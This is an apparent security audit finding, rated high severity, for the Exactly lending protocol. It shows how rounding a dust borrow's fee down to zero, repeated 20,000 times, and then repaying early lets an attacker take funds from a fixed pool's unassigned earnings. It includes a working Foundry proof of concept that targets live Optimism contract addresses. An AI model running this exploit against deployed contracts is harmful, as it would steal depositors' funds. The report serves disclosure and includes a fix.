 Itchy Candy Bat

high

# Theft of unassigned earnings from a fixed pool

## Summary

An attacker can borrow a dust amount from a fixed pool to round down the fee to zero, repeating this thousands of times the attacker will get a big fixed loan with 0 fees. If that loan is repaid early, the amount repaid will be lower than the borrowed amount, effectively stealing funds from the unassigned earnings of that fixed pool.

## Vulnerability Detail

When a user takes a loan from a fixed pool, the resulting fee is rounded down. An attacker can use this feature to borrow a dust amount from a fixed pool thousands of times to end up with a big fixed loan with 0 fees. 

The fee is calculated here:

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L320
```solidity
fee = assets.mulWadDown(fixedRate.mulDivDown(maturity - block.timestamp, 365 days));
```

When the borrowed assets are really low, the resulting fee will be rounded down to zero. This by itself is already an issue, but an attacker can use this loan to steal funds from the unassigned earnings.

When a fixed loan is repaid early, it can get a discount that is calculated as if the repaid amount was deposited into that fixed pool. The discount depends on the unassigned earnings of the pool and the proportion that the repaid amount represents in the total fixed debt backed by the floating pool.

When the attacker repays this loan with no interest, he's going to get a discount based on the current unassigned earnings of that pool. This discount will make the attacker repay less funds than he originally borrowed, and those funds will be subtracted from the unassigned earnings of that pool.

## Impact

An attacker can steal the unassigned earnings from a fixed pool. 

## PoC

The following PoC executes this attack on the live contracts of Exactly in the Optimism chain. The test can be pasted into a new file within a forge environment. Also, the `.env` file must include the variable `OPTIMISM_RPC_URL` for the test to run. The test can be executed with the following command:

```solidity
forge test --match-test test_steal_unassigned_earnings --evm-version cancun
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import {Market} from "protocol/contracts/Market.sol";
import {FixedLib} from "protocol/contracts/utils/FixedLib.sol";
import {Test} from "forge-std/Test.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
}

contract TestMarket is Test {
    Market marketUSDC = Market(0x81C9A7B55A4df39A9B7B5F781ec0e53539694873);
    Market marketWBTC = Market(0x6f748FD65d7c71949BA6641B3248C4C191F3b322);

    IERC20 usdc = IERC20(0x7F5c764cBc14f9669B88837ca1490cCa17c31607);
    IERC20 wbtc = IERC20(0x68f180fcCe6836688e9084f035309E29Bf0A2095);

    uint256 public optimismFork;
    string OPTIMISM_RPC_URL = vm.envString("OPTIMISM_RPC_URL");

    function setUp() public {
        optimismFork = vm.createSelectFork(OPTIMISM_RPC_URL);
        assertEq(optimismFork, vm.activeFork());
    }

    function test_steal_unassigned_earnings() public {
        vm.rollFork(119348257); // Abr 28
        uint256 maturity = 1722470400; // Aug 01
        uint256 liquidity = 100_000e6;
        uint256 borrowAmount = 1e8;

        // Simulate some fixed rate borrows on the WBTC market
        deal(address(usdc), address(this), liquidity);
        usdc.approve(address(marketUSDC), liquidity);
        marketUSDC.deposit(liquidity, address(this));
        marketUSDC.auditor().enterMarket(marketUSDC);
        marketWBTC.borrowAtMaturity(
            maturity,
            borrowAmount,
            type(uint256).max,
            address(this),
            address(this)
        );

        // Attacker deposits liquidity and borrows from the same pool
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        deal(address(wbtc), attacker, 1e8);
        wbtc.approve(address(marketWBTC), type(uint256).max);
        marketWBTC.deposit(1e8, attacker);

        // Attacker borrows a tiny amount to round the fee to 0
        // Doing it lots of times you end up with a big loan with a fee of 0
        for (uint i = 0; i < 20_000; i++) {
            marketWBTC.borrowAtMaturity(
                maturity,
                190,
                type(uint256).max,
                attacker,
                attacker
            );
        }

        (uint256 principal, uint256 fee) = marketWBTC.fixedBorrowPositions(
            maturity,
            attacker
        );

        assertEq(principal, 0.038e8); // Loan of 0.038 WBTC (~2400 USD)
        assertEq(fee, 0);

        // Repay all the loan
        uint256 actualRepayAssets = marketWBTC.repayAtMaturity(
            maturity,
            type(uint256).max,
            type(uint256).max,
            attacker
        );

        assertEq(actualRepayAssets, 0.03786283e8); // Repay 0.037 WBTC

        assertGt(principal, actualRepayAssets); // The attacker has repaid the loan of 0.038 WBTC with 0.037 WBTC
    }
}
```

## Code Snippet

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L320

## Tool used

Manual Review

## Recommendation

To mitigate this issue is recommended to not allow borrows with 0 fees from fixed pools. Here is a possible implementation of the fix:

```diff
    fee = assets.mulWadDown(fixedRate.mulDivDown(maturity - block.timestamp, 365 days));
+   require(fee > 0);
```
